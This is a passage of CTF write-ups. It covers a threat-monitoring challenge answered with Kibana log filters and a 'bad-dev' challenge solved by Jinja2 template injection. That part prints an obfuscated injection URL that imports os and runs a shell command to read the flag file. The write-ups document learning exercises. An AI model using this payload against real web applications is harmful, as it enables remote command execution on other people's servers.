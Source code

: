 After the script is done, one must just go back to the swagger ui, get a token, and do another request to `file_navigator` endpoint like this:

![image](https://github.com/vektor8/CTF-Writeups/assets/56222237/a6e3f8b4-8fb9-451f-97e1-04f47943f8d2)


## threat-monitoring
### Flag proof
```
1. spammers-paradise
2. alnera
3. 94.76.245.25
```
### Summary
Pretty straight forward, search the kibana logs for the answer to each question.
### Details

Using the following filter `payload_data : *Host*` we can easily see all HTTP requests and what Host headers is used. Therefore we find one such request.

![image](https://github.com/vektor8/CTF-Writeups/assets/56222237/e9c83c32-f156-4a84-ba7d-6c11095ec0d4)


Knowing the compromised host and it's ip we can look for traffic that has HTTP Referer header but that is not directed at it like this:

![image](https://github.com/vektor8/CTF-Writeups/assets/56222237/28c7ccac-1f72-43df-8dd8-dfa89f7ee265)


And if we expand just the first payload, we see the host where traffic is redirected:

![image](https://github.com/vektor8/CTF-Writeups/assets/56222237/809ad334-7f6f-42fa-b8ae-8bd23660095f)


For the third question, we just look at the same traffic we used to answer the first question, but we look for destination IP. This IP was also used to find the answer to Q2.

## bad-dev
### Flag proof
```CTF{4e86532c1b513931d809f9ad01baa4290c8449c4db9628b8ba5b23dbbb932db8}```
### Summary
Jinja2 Template Injection.
### Details
The first thing we notice is the Werkzeug header in the HTTP responses. Therefore it is safe to assume we are dealing with a site using templating. We are greeted by a form in which we have to name a payee and a sum. The sum can only be number in the form, however in the URL bar we can set to whatever we want. We find the `sum` parameter to be vulnerable, therefore the following payload: `/pay?beneficiar=&suma={{7*7}}` yields:

![image](https://github.com/vektor8/CTF-Writeups/assets/56222237/e296014c-82c1-4715-9fbe-bd2aaf1871cd)


With this in mind we just create payload to execute commands.

I used the following URL to leak the flag: ```/pay?beneficiar=%7B%25+debug+%25%7D&suma={{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fbuiltins\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimport\x5f\x5f%27)(%27os%27)|attr(%27popen%27)(%27cat%20flag.txt%27)|attr(%27read%27)()}}```

## not-allowed
### Flag proof
```CTF{94688cdd453093ee28814f908a81a73595e0cdfcb1ef8bbbb83e0a7cf5af611d}```
```